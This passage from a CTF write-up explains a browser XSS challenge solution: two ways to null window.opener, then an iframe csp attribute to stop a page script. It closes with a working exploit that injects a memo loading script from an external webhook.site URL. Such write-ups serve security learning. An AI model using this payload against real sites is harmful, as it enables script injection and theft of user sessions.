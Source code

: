 ## Solution

The reason I said the opener is easier to solve is that I have seen similar problems before.

There are a few methods to make the opener null. The first one is similar to what appeared in [SekaiCTF 2022 - Obligatory Calc](https://blog.huli.tw/2022/10/08/en/sekaictf2022-safelist-and-connection/#obligatory-calc). After executing `window.open`, quickly close itself, and `opener` will be null. The author of this problem, icesfont, used this method (if you test it in the console, you will find that nothing happens after execution because browsers by default cannot open a new window without user interaction, so the second open will be blocked):

``` js
function openNoOpener(url, name) {
  open(URL.createObjectURL(new Blob([`
    <script>
      open("${url}", "${name}");
      window.close();
    <\/script>
  `], { type: "text/html" })));
}
```

The second method I saw proposed by Jazzy in Discord is actually just to set the opener to null after opening:

``` js
function openNoOpener(url, name) {
  let w = window.open(url, name)
  w.opener = null
}
```

The reason this works is that right after opening, there is a short period when the opened window and the current window are same-origin, so during this time, it can be manipulated, and then it will be redirected to the desired URL.

Although the opener is lost, it seems to be disconnected from the opened window, but actually, it can be accessed again using the `name` attribute. I have written about this before: [iframe and window.open magic](https://blog.huli.tw/2022/04/07/en/iframe-and-window-open/#windowopen).

After solving the opener issue, we can look at the other most troublesome part, which is that script. If we can prevent it from executing, it would be easy to achieve XSS. But how can we prevent it from executing? I have previously [written](https://blog.huli.tw/2022/04/07/en/iframe-and-window-open/#iframes-csp) that there is an attribute called `csp` on iframes, and by adding it, we can set the CSP.

As mentioned earlier, due to same-site cookies, we need to directly use the problem's memo function to embed it. The code is as follows(modified from the exploit posted by Jazzy in Discord channel):

``` html
<script>
  const challengeHost = 'http://localhost:1337'
  function openNoOpener(url, name) {
    let w = window.open(url, name)
    w.opener = null
  }

  let html = `
    html
    <script src="http://webhook.site/0fdd5e6d-0882-44de-b593-212aecf604c1"><\/script>
    <iframe csp="script-src http: https:" src="/"></iframe>
  `;

  openNoOpener(`${challengeHost}/memo?memo=${encodeURIComponent(html)}`, 'main');
</script>
```

